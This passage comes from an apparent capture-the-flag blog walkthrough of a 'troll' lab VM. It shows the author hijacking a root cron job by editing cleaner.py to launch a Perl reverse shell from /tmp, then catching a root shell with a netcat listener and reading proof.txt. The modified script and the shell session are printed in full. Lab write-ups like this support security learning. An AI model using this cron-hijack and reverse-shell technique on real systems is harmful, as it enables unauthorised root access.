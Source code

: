 and it gave me some time although right about now we had a problem :/ the connection was closed -_- i feel another cron task every 2 minutes as i figured out later

[![http9](https://trickster0.files.wordpress.com/2015/10/http9.png)](https://trickster0.files.wordpress.com/2015/10/http9.png)
so ofc i reconnected and i browsed to the /tmp folder as fast as possible to download the classic perl reverse shell backdoor,i edited it real quick to connect back to kali and chmod +x the shell ^_^

[![http10](https://trickster0.files.wordpress.com/2015/10/http10.png)](https://trickster0.files.wordpress.com/2015/10/http10.png)
again i had to modify the cleaner.py to execute the perl shell so i changed the code to this


>#!/usr/bin/env python
import os
import sys
try:
    os.system('/tmp/perl-reverse-shell-1.0/perl-reverse-shell.pl')
except:
    sys.exit()


and i am good to go now lets w8 for 2 minutes to start by itself...........2 minutes later boom!



>root@kali:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.124.134] from (UNKNOWN) [192.168.124.141] 57849
 09:50:01 up  1:13,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 i686 i686 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# uname -r
3.13.0-32-generic
# uname -a
Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 i686 i686 GNU/Linux
# cat /opt/lmao.py
#!/usr/bin/env python
import os

os.system('echo "TIMES UP LOL!"|wall')
os.system("pkill -u 'overflow'")
sys.exit()

# ls /root/
proof.txt
# cat /root/proof.txt
Good job, you did it! 
